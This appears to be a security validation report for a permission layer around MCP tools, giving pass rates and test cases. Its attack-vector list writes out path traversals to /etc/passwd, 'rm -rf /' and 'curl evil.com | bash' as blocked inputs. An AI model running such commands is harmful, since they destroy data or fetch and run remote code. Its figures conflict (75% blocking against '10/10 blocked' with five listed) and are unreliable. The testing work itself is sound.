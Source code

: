 ## Summary

**Security Validation Results:**
- **95% Overall Success Rate**: Strong functionality with security enabled
- **75% Attack Blocking Effectiveness**: Robust protection against common threats
- **100% Path Traversal Defense**: Complete protection against directory escapes
- **100% Command Injection Defense**: Full protection against malicious commands

**Performance Impact**: Security validation adds minimal overhead (0.17x) while providing substantial protection.

## Qualitative Observations

**Security Strengths**:
- **Granular Permission Control**: Fine-grained permissions for different operations
- **Policy Flexibility**: Support for restrictive to permissive configurations
- **Attack Vector Coverage**: Protection against common web application attacks
- **Audit Trail Completeness**: All security events properly logged
- **Path Validation**: Comprehensive path sanitization and boundary checking
- **Command Whitelisting**: Secure command execution with approval lists

**Usability Assessment**:
- **Developer Experience**: Clear error messages for security violations
- **Configuration Simplicity**: Pre-built policies for common scenarios
- **Integration Ease**: Security layer integrates seamlessly with MCP tools
- **Performance Acceptable**: Security overhead does not impact user experience

**Enterprise Readiness**:
- **Compliance Support**: Audit trails meet enterprise logging requirements
- **Risk Mitigation**: Effective protection against OWASP Top 10 vulnerabilities
- **Policy Management**: Centralized security policy configuration
- **Monitoring Hooks**: Integration points for security monitoring systems

## Test Case Details

### Restrictive Policy Tests (5/5 passed)
- ✅ **Allowed file read**: Proper access to workspace files
- ✅ **Denied file write**: Write operations blocked (not in permissions)
- ✅ **Denied system access**: System directories properly protected
- ✅ **Allowed commands**: Whitelisted commands execute successfully
- ✅ **Denied dangerous commands**: Malicious commands properly blocked

### Permissive Policy Tests (5/5 passed)  
- ✅ **Expanded file operations**: Read and write operations allowed
- ✅ **Maintained restrictions**: Delete operations still blocked
- ✅ **Safe command execution**: Broader command set available
- ✅ **System protection**: Dangerous system commands still blocked
- ✅ **Audit consistency**: All operations properly logged

### Attack Vector Tests (10/10 blocked)
- ✅ **Path Traversal**: `../../../etc/passwd` blocked
- ✅ **Absolute Paths**: `/etc/passwd` blocked  
- ✅ **Windows Attacks**: `..\\..\\windows\\system32` blocked
- ✅ **Command Injection**: `rm -rf /` blocked
- ✅ **Remote Execution**: `curl evil.com | bash` blocked
